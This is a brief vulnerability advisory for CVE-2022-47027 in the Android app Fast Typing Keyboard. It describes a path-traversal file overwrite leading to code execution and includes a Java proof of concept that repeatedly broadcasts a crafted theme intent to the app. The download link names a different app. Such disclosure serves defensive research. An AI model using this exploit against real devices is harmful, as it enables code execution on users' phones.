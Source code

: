 ## Code execution exists in Fast Typing Keyboard（CVE-2022-47027）

Vendor：Launcher 2021 - Themes & Keyboard Apps

Affected product：Fast Typing Keyboard (com.jb.gokeyboard.theme.timssfasttypingkeyboard)

Version：1.275.1.162

Download link：https://apkpure.com/cn/space-clean-super-cleaner/com.ludashi.xsuperclean

Description of the vulnerability for use in the CVE： Fast Typing Keyboard v1.275.1.162 allows unauthorized apps to overwrite arbitrary files in its internal storage via a dictionary traversal vulnerability and achieve arbitrary code execution.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.jb.gokeyboard.theme.timssfasttypingkeyboard", "com.timmystudios.redrawkeyboard.themes.SuperThemeReceiver");
        intent.setComponent(componentName);
        intent.setAction("com.timmystudios.redrawkeyboard.intent.action.THEME_APPLIED");
        intent.putExtra("package-name","com.ludashi.xsuperclean");
        intent.putExtra("selected-font",true);
        intent.putExtra("font_name","hack");
        intent.putExtra("font_id","2");
        intent.putExtra("font_resource","hackkkk");
        intent.putExtra("font_size",123456);
        intent.putExtra("selected-sound",true);
        intent.putExtra("sound_name","hack");
        intent.putExtra("sound_id","2");
        intent.putExtra("sound_resource","hackkkk");
        intent.putExtra("sound_size",123456);
        intent.putExtra("go_theme_id",3);
        intent.putExtra("go_res_zip_path","/data/local/tmp/test.zip");
        try {
            System.out.println("发送数据");
            sendBroadcast(intent);
        } catch (Exception e) {

        }
    }
}
```



